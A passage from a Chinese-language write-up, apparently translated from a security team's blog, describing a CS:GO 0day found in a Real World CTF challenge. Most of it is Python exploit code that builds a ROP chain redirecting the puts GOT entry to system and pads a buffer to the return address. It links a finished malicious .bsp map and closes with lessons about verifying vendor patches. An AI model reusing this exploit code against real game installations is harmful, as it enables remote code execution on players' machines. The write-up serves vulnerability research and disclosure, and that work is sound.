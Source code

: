 ```
rop = []

for i in range(0, len(command), 4):
  current = int(command[i:][:4][::-1].encode("hex"), 16)
  rop += [pop_eax_ebx_ebp, bss + i - 0x5b, current, bss, add_what_where, bss]

rop += [pop_eax_ebx_ebp, putsgot - 0x5b, 0x100000000 - (putsoffset - systemoffset), bss, add_what_where, bss]
rop += [putsplt, bss, bss, bss]

payload = ""
for i in rop:
  payload += p32(i)


with open('rop', 'wb') as f:
  f.write(payload)

print '[+] Generated ROP.n'
```



## 完成 exploit

为了完成exploit，我们需要使用许多0来覆盖整个缓冲区直到返回地址为止，然后插入我们的ROP链payload！

```
from pwn import *

rop = ''

with open('rop', 'r') as f:
  rop = f.read()

payload  = p8(0) * 0x1c0 
payload += rop

with open('payload', 'w') as f:
  f.write(payload)

print '[+] Full payload generated.n'
```

插入我们的payload后，手动修改`fileLen`和`fileNameLength`，就可以执行代码了！最终的bsp[在这](https://blog.perfect.blue/assets/files/CSGO0day/exploit.bsp)

[![](https://blog.perfect.blue/assets/images/csgo_calc.gif)](https://blog.perfect.blue/assets/images/csgo_calc.gif)

（图片不动请[点我](https://blog.perfect.blue/assets/images/csgo_calc.gif)）



## 结论和经验
- 我们从这个挑战中吸取了一些教训，我们觉得最主要的是不应该依赖于旧的/泄漏的代码。我们本可以通过在IDA中打开二进制文件来节省大量时间，但即时当我们意识到应该这么做时，也没有立即动手。
- 有些人可能已经注意到了，对于没注意到的人，我跟你们港：Valve的第一个“补丁”实际上没有修复报告中提到的的漏洞！它确实修复了第一次出现的`Get()`调用，但没有修复第二次调用 – 报告说的实际就是这个！
这让我们学到了另一个重要的经验——永远不要相信“修复补丁”。总是去验证它实际上是否修复了bug！

我们在完成这一挑战时获得了很多乐趣，并且CTF挑战中找到了0 day！

期待Real World CTF 总决赛 – 2018！
